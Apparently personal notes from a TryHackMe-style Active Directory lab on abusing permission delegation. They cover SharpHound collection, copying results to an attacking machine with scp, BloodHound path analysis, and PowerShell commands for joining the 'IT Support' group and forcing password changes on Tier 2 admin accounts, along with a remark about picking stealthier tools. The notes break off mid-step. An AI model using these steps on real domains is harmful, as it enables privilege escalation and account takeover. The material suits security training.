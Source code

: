 - AllExtendedRights: We have the ability to perform any action associated with extended AD rights against 
the target object. This includes, for example, the ability to force change a user's password.

In order to exploit these ACEs, we will need a method to interact with AD to make these requests. The two 
best options for this are: 

- AD-RSAT PowerShell cmdlets
- PowerSploit. 

Depending on the breach and the detection tools in the environment, one option may be stealthier.

**Bloodhound**

Execute SharpHound (same version as BloodHound installation!) on a windows machine connected to the domain

`SharpHound.exe --CollectionMethods All --Domain <DOMAIN> --ExcludeDCs`

Use scp to copy the zip file to our atacking machine:

`scp <USERNAME>@<WINDOWS-MACHINE>:C:/path/to/zip/file .`

Start Neo4j and BloodHound;

```
neo4j console

bloodhound --no-sandbox
```

Authenticate with Neo4j credentials.

**Privilege Escalation**

- Search for privileges associated with the user account
- Search for administrative privileges on all workstations
- View roads in bloodhound leading to accounts for privilege escalation
- Look for permission delegation misconfiguration leading to attack paths

A road from our Domain user to the T2 admins shows that a GenericWrite privilege for IT Support is delegated 
to domain which in turn allows IT Support group members ForceChangePassword of T" admins

Exploit the GenericWrite privilege delegation misconfiguration by adding your domain user to IT Support:

THMWRK1
```
powershell
Add-ADGroupMember "IT Support" -Members
```

**ForceChangePassword**

Find an account to takeover:

`Get-ADGroupMember -Identity "Tier 2 Admins"`

Set a new password:
